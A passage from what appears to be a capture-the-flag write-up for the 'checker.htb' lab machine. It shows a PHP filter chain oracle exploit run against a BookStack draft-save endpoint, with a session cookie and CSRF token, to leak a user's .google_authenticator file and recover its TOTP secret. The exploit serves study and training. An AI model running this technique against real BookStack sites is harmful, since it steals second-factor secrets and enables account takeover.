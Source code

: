 ![](images/2025-02-24_16-21_80_bookstack_bob_book_new_page.png)

### Payload Execution

From the available `book` we knew about the `safe directory` and since we needed a `Verification code` in order to access the box in using `SSH`, there was the typical `.google_authenticator` file we were going to check to see if it existed and if we could extract it, using the `LFI` through `SSRF`.

- [https://github.com/google/google-authenticator-libpam](https://github.com/google/google-authenticator-libpam)

While our `new book` was still open as `draft` we put the `payload` together and waited until the `oracle attack` had finished to receive the `TOTP Secret`.

```c
┌──(venv)─(kali㉿kali)-[~/Downloads/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/9/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"0jGFTjzJeI7sqw2ePb57XgWuU83BLPLEOLXRFYuR", "Content-Type": "application/x-www-form-urlencoded", "Cookie":"bookstack_session=eyJpdiI6InNCcVc1Rm0vaGNoMWNRYmFsRWVyNUE9PSIsInZhbHVlIjoiYWhZRnhYYm0yV1VTMllrQzhRLzBpell3RFNOZFUrRDJoWmhyd0hDN1IvOGREN3ZZSjk5bklWUURSVXJmbUNsc2gvMlNOVGIzR0I5Y0syOHBtQ1FsUEY3UG11U0Z4WGZHNU03ZnFhdlRxT2VvN3RZV3kwcVh2L2wvdE5BNG1vcGkiLCJtYWMiOiJkMjQzM2VjMDQ2ZjRhMmQ5YmQ1MjE2OGUwOWY2ODUzNjQ1NTUwN2IzZTBlMGIwMWIzZTNhZjBjODhlNWM5OTZjIiwidGFnIjoiIn0%3D"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/9/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN":"0jGFTjzJeI7sqw2ePb57XgWuU83BLPLEOLXRFYuR", "Content-Type": "application/x-www-form-urlencoded", "Cookie":"bookstack_session=eyJpdiI6InNCcVc1Rm0vaGNoMWNRYmFsRWVyNUE9PSIsInZhbHVlIjoiYWhZRnhYYm0yV1VTMllrQzhRLzBpell3RFNOZFUrRDJoWmhyd0hDN1IvOGREN3ZZSjk5bklWUURSVXJmbUNsc2gvMlNOVGIzR0I5Y0syOHBtQ1FsUEY3UG11U0Z4WGZHNU03ZnFhdlRxT2VvN3RZV3kwcVh2L2wvdE5BNG1vcGkiLCJtYWMiOiJkMjQzM2VjMDQ2ZjRhMmQ5YmQ1MjE2OGUwOWY2ODUzNjQ1NTUwN2IzZTBlMGIwMWIzZTNhZjBjODhlNWM5OTZjIiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```
